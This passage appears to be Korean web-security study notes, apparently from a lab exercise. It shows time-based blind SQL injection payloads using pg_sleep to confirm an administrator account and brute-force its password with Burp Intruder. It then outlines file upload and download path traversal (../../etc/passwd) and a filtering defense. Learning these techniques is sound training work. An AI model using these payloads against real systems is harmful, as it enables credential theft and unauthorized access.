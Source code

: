 ```
x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--
```

딜레이가 있는 걸보니, administrator가 있음. 

```
x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+length(password)>20)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users-- 
```

20에서 딜레이가 멈추는 걸보니, password는 20자임. 

x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+substring(password,§2§,1)='§a§')+THEN+pg_sleep(2)+ELSE+pg_sleep(0)+END+FROM+users-- 

intruder에 보내서, clusterbomb, thread=1, 그리고 공격, response received칼럼으로 정렬함. 

 <img src='../images/theory/sql-3.png'>

password 확인가능 



# 3. File Vulnerability

**파일 업로드 취약점** 

서버의 파일 시스템에 사용자가 원하는 경로 또는 파일 명 등으로 업로드가 가능하여 악영향을 미칠 수 있는 파일이 업로드되는 취약점 
파일명을 ../hack.py로 하면 정해진 경로에서 벋어난 위치에 업로드 될 수 있음. 

**파일 다운로드 취약점** 

서버의 기능 구현 상 의도하지 않은 파일을 다운로드할 수 있는 취약점 
../../etc/passwd 와 같은 이름의 파일은 다운할 수가 있게 된다. 

**방어** 

파일명을 받아서 다운로드 하는 것은 좋지 않다. 
파일명을 받는 경우에는 .. , /를 필터링 해야한다. 

